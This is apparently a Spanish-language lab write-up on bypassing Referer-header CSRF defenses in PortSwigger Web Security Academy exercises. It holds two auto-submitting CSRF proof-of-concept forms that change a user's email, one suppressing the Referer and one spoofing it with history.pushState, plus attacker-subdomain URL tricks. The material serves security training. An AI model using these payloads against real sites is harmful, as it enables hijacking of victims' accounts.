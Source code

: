 ```jsx
<meta name="referrer" content="never">
```

```jsx
<html>
    <body>
        <form action="https://URL-VULNERABLE/my-account/change-email" method="POST" >
            <input type="hidden" name="email" value="antu97@test.com" />
            <meta name="referrer" content="never">
        </form>
        <script>
      document.forms[0].submit();
    </script>
    </body>
</html>
```

Laboratorio [aqu](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)í.

Algunas aplicaciones solo validan que el valor de la cabecera contenga el dominio por lo que un atacante puede utilizar dicho dominio como subdominio del dominio del atacante como en el ejemplo siguiente:

```jsx
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

Otra forma de validación utilizadas por algunas aplicaciones es que el valor de la cabecera contenga el propio dominio por lo que se puede añadir el dominio del atacante a este.

```jsx
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

```jsx
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://ID-LABORATORIO.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="antu97@test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?ID-LABORATPORIO.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Laboratorio [aquí](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken).

